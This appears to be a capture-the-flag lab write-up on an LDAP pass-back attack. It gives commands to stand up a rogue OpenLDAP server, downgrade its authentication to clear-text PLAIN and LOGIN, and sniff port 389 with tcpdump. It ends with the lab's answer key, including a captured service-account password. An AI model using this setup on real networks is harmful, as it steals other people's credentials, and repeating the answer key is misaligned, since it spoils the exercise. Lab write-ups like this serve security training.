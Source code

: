 ## Performing an LDAP Pass-back

>> Use the following command to install OpenLDAP which will be used later to create
a rouge LDAP server.

`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`

>> Then configure your own rogue LDAP server
`sudo dpkg-reconfigure -p low slapd`

Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. Use the ldif file to patch your LDAP server.

`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

Then verify that our rogue LDAP server's configuration has been applied using the following command:

`ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms`

Once Configured correctly, run tcpdump on the interface connected to the network, tun0 in my case, by the following command:

```shell
sudo tcpdump -SX -i **interface** tcp port 389
```

-----------------------------------------------------------------------------------------

# Answers

1. What type of attack can be performed against LDAP Authentication systems not commonly found against Windows Authentication systems?
`LDAP Pass-back Attack`

2. What two authentication mechanisms do we allow on our rogue LDAP server to downgrade the authentication and make it clear text?
`LOGIN,PLAIN`

3. What is the password associated with the svcLDAP account?
`tryhackmeldappass1@`




